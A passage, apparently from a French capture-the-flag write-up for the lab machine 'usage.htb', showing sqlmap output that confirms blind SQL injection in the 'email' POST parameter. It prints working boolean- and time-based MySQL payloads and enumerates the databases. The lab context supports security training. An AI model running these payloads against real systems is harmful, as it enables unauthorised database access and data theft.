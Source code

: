 ```bash
[23:19:49] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[23:20:09] [INFO] target URL appears to be UNION injectable with 8 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[23:21:28] [INFO] testing 'Generic UNION query (53) - 21 to 40 columns'
[23:21:50] [INFO] testing 'Generic UNION query (53) - 41 to 60 columns'
[23:22:08] [INFO] testing 'Generic UNION query (53) - 61 to 80 columns'
[23:22:31] [INFO] testing 'Generic UNION query (53) - 81 to 100 columns'
[23:22:53] [INFO] testing 'MySQL UNION query (53) - 1 to 20 columns'
[23:23:41] [INFO] testing 'MySQL UNION query (53) - 21 to 40 columns'
[23:24:07] [INFO] testing 'MySQL UNION query (53) - 41 to 60 columns'
[23:24:24] [INFO] testing 'MySQL UNION query (53) - 61 to 80 columns'
[23:24:45] [INFO] testing 'MySQL UNION query (53) - 81 to 100 columns'
[23:25:14] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 735 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 5458=(SELECT (CASE WHEN (5458=5458) THEN 5458 ELSE (SELECT 4624 UNION SELECT 6593) END))-- UEue

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 1208=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- zgvX
---
[23:25:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[23:25:41] [INFO] fetching database names
[23:25:41] [INFO] fetching number of databases
[23:25:41] [INFO] retrieved: 3
[23:25:47] [INFO] retrieving the length of query output
[23:25:47] [INFO] retrieved: 18
[23:26:30] [INFO] retrieved: information_schema             
[23:26:30] [INFO] retrieving the length of query output
[23:26:30] [INFO] retrieved: 18
[23:27:10] [INFO] retrieved: performance_schema             
[23:27:10] [INFO] retrieving the length of query output
[23:27:10] [INFO] retrieved: 10
[23:27:36] [INFO] retrieved: usage_blog             
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

[23:27:36] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 511 times
[23:27:36] [INFO] fetched data logged to text files under '/home/leopold/.local/share/sqlmap/output/usage.htb'
[23:27:36] [WARNING] your sqlmap version is outdated

[*] ending @ 23:27:36 /2024-08-06/
```
Il est bien vulnérable ! On trouve une base de donnée mysql : `usage_blog`
